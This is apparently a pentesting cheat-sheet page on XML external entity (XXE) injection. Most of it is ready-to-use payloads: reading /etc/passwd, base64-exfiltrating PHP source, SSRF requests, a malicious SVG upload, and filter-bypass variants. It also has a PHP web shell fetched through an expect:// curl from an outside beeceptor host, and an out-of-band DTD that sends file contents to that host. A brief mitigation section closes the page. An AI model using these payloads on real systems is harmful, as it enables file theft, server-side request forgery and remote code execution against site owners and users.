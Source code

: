 ```yaml
---
description: https://app.beeceptor.com/
---
```


# XML external entity (XXE) injection

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

#### Identifying

1. **Identify XML User Input**: Look for web pages or forms that accept XML input from users. This can include forms that submit data in XML format to the server.
2. **Inspect Input Filtering and Sanitization**: Check if the application applies proper input filtering or sanitization to XML input. Lack of filtering or sanitization increases the risk of XXE vulnerabilities.
3. **Observe Response Handling**: Pay attention to how the application handles user input in the response. If the application reflects XML elements back to the user without encoding, it may be vulnerable to XXE.
4. **Analyze DTD Declaration**: Determine if the XML input includes a Document Type Definition (DTD) declaration. If present, it may allow for entity declaration and expansion, leading to XXE.
5. **Add Custom Entity**: Inject a custom entity into the XML input to test for XXE. This can be done by adding a DTD declaration and defining a new entity within it.
6. **Test Entity Replacement**: Verify if the application replaces the custom entity with its defined value in the response. If the value of the entity is reflected back, it indicates potential XXE vulnerability.
7. **Check Content-Type**: Even if the application primarily uses JSON format, try changing the Content-Type header to application/XML. Some applications may accept XML data even if they primarily handle JSON.
8. **Convert JSON to XML**: If necessary, convert JSON data to XML format using online tools. Submit the XML data to the application and test for XXE vulnerabilities as described above.

## Error Based XXE

### Read File

```xml
<!--Linux -->
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read  SYSTEM "file:///etc/passwd">]>
<check>
    <proid>&read;</proid>
</check>
```

<figure><img src="../../.gitbook/assets/image (433).png" alt=""><figcaption></figcaption></figure>

## Blind Data Exfiltration

### PHP Filter&#x20;

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read SYSTEM "php://filter/convert.base64-encode/resource=/index.php"> ]>
<Check><proid>&read;</proid></Check>
```
{% endcode %}

## Code Execution

PHP Wrapper <mark style="color:red;">**expect://ls**</mark>

```bash
echo '<?php system($_REQUEST['cmd'])?>' > shell.php
#up server 
python3 -m http.server 80 
```

to execute&#x20;

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'https://h3ckt00r.free.beeceptor.com/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

{% hint style="warning" %}
The <mark style="color:red;">**expect**</mark> module is not enabled/installed on modern PHP servers by default, so this attack may not always work.
{% endhint %}

## SSRF Attack

```sml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://sub.vulnerable.com/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### CDATA with XXE and SSRF

```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [ <!ENTITY read SYSTEM "https://h3ckt00r.free.beeceptor.com">]>
    <root>
        <data><![CDATA[&read;]]></data>
    </root>

```

## File Upload

{% code overflow="wrap" %}
```xml
<!-- exploit.svg -->

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

### OUT-OF\_BAND (OOB)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % read SYSTEM "https://h3ckt00r.free.beeceptor.com/xxe.dtd" > ]>

```

in Server

{% code overflow="wrap" %}
```xml
<!DOCTYPE h3ckt00r [ <!ENTITY % read SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<!ENTITY % test "<!ENTITY &#x25; snedfile SYSTEM 'https://h3ckt00r.free.beeceptor.com/?x=%read;'>">
%test;
%sendfile;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

### Automated OOB Exfiltration

{% code overflow="wrap" %}
```bash
0xN1ghtM4r3@htb[/htb]$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending a request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
{% endcode %}



## How to Find XEE

**● XML file upload (e.g config files)**&#x20;

**● XML input fields**&#x20;

**● XML based APIs**&#x20;

**● XML based files (RSS, SVG)**

## how to bypass if filters " ENTITY " word

### Case1: **Manipulation (Uppercase/Lowercase)**

```xml
<!eNtItY h3ckt00r SYSTEM "file:///etc/passwd">
```

### Case2: Encoding

* **HTML encoding**:

```xml
<!&#69;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#69; -->
```

* Hexadecimal enconding

```xml
<!&#x45;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#x45; -->
```

* Whitespace Bypasses (Extra Spaces or Newlines) Or using Comment

```xml
<!EN TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR --> 
<!EN
TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR using Comment -->
<!E<!-- Comment -->NTITY xxe SYSTEM "file:///etc/passwd">
```

* CDATA

```xml
<!DOCTYPE root [
  <!ENTITY % data "<![CDATA[ENTITY]]">
  %data;
]>
```

## How TO Test XXE **Methodology**

1. Find XXE Data Entry Point
2. Change the XML object to anything.
3. Try to declare a reference entity or parameter entity. **`<!DOCTYPE hacktor [ <!ENTITY xxe  SYSTEM "Hello">]>`**&#x20;
4. test Blind get server and add reference&#x20;
5. if now XML format test **Xinclude**&#x20;

## **Mitigation and** Prevention

* Avoiding Outdated Components
* Using Safe XML Configurations
  * Disable referencing custom <mark style="color:red;">**`Document Type Definitions (DTDs)`**</mark>
  * Disable referencing <mark style="color:red;">**`External XML Entities`**</mark>
  * Disable <mark style="color:red;">**`Parameter Entity`**</mark><mark style="color:red;">** **</mark><mark style="color:red;">**processing =>**</mark>&#x20;
    * ```php
      libxml_disable_entity_loader(true);
      ```
  * Disable support for <mark style="color:red;">**`XInclude`**</mark>
  * Prevent <mark style="color:red;">**`Entity Reference Loops`**</mark>
